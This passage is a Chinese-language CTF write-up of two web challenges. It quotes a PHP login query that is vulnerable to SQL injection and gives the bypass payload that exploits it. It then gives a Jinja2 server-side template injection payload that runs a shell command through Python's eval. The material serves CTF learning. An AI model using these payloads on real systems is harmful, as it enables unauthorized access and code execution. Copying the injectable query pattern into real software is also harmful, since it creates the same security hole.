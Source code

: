 邮箱要是xxx.@xxx的格式，密码会被md5加密，然后会执行sql语句

重点看这串代码

```
  $sql = "SELECT * FROM admin WHERE email='$email' AND pwd='$pwd'";
    $result = mysqli_query($conn,$sql);
    $row = mysqli_fetch_array($result);
```

由于pwd被md5加密了，我们不考虑当做注入点

所以我们用email进行注入

我们尝试万能注入

```
123@qq.com' || 1=1 #
```

随便输个密码，填写验证码，登录得到flag

![image-20240910213619430](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409102136562.png)

注：POST使用#或%23注释

GET使用--+进行注释

### **who's blog?**

我们打开网页，提示我们使用id

![image-20240911201946361](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409112019451.png)

我们传个id=1

```
?id=1
```

发现标题有变化

![image-20240911202017807](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409112020907.png)

我们考虑ssti

尝试

```
?id={{7*7}}
```

回显49，嗯，为ssti模版注入

![image-20240911202133022](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409112021155.png)

该题为jinja2模版

```
?id={% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
```
